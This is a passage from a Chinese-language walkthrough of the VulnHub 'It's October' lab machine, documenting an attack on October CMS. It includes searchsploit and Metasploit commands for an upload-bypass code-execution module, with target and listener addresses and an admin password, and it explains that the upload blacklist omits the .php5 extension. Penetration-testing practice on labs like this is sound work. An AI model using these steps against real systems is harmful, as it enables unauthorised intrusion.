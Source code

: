 2 个 XSS 怎么用啊🤣，后来才发现是我搜索姿势不对

```bash
searchsploit october cms
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/It’s_October/It’s_October1/12.png)

要加个空格我是服气的..接下来访问搜出的这几个漏洞。

**October CMS - Upload Protection Bypass Code Execution (Metasploit)**

```bash
msfconsole
use exploit/multi/http/october_upload_bypass_exec
set rhosts 192.168.1.249
set lhost 192.168.1.248
set password adminadmin2
```

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/It’s_October/It’s_October1/13.png)

利用完毕但未回弹成功,那么换下一个

**October CMS 1.0.412 - Multiple Vulnerabilities**

- https://www.exploit-db.com/exploits/41936

大致描述了 bypass 上传和上传 .htaccess 的利用方法,还有资产管理中的 php 代码执行,既然 msf 没成功那就手动试试

- **bypass 上传**

    意思是黑名单中没有包含 php5 后缀的文件

    ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/It’s_October/It’s_October1/14.png)
